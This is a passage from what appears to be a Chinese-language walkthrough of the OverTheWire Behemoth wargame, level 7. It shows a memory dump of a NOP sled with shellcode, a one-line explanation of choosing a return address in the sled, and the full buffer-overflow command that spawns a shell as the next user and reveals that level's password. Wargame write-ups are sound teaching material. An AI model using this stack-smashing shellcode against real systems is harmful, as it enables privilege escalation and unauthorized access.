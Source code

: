 ```
0xffffd358:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd368:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd378:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffd388:	0x6850c031	0x68732f2f	0x69622f68	0x31e3896e
0xffffd398:	0xb0d231c9	0xcd042c0f	0xffff0080	0xffffdeda
0xffffd3a8:	0xffffdeed	0xffffdef9	0xffffdf12	0xffffdf22
0xffffd3b8:	0xffffdf36	0xffffdf41	0xffffdf49	0xffffdf62
0xffffd3c8:	0xffffdf74	0xffffdfb2	0xffffdfd0	0x00000000
0xffffd3d8:	0x00000020	0xf7fd7c90	0x00000021	0xf7fd7000
0xffffd3e8:	0x00000010	0x178bfbff	0x00000006	0x00001000
0xffffd3f8:	0x00000011	0x00000064	0x00000003	0x08048034
0xffffd408:	0x00000004	0x00000020	0x00000005	0x00000008
0xffffd418:	0x00000007	0xf7fd9000	0x00000008	0x00000000
0xffffd428:	0x00000009	0x08048430	0x0000000b	0x000032cf
0xffffd438:	0x0000000c	0x000032cf	0x0000000d	0x000032cf
0xffffd448:	0x0000000e	0x000032cf	0x00000017	0x00000001
0xffffd458:	0x00000019	0xffffd48b	0x0000001a	0x00000000

```

选一个雪橇中间的位置,这里选择`0xffffd328`,返回地址写入`0xffffd328`,构造字符串:

```bash
behemoth7@behemoth:/behemoth$ ./behemoth7   $(python -c "print 528*'A'+'\x28\xd3\xff\xff'+ 200*'\x90'+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0f\x2c\x04\xcd\x80'")
$ whoami
behemoth8
$ cat /etc/behemoth_pass/behemoth8
pheewij7Ae
$ 

```

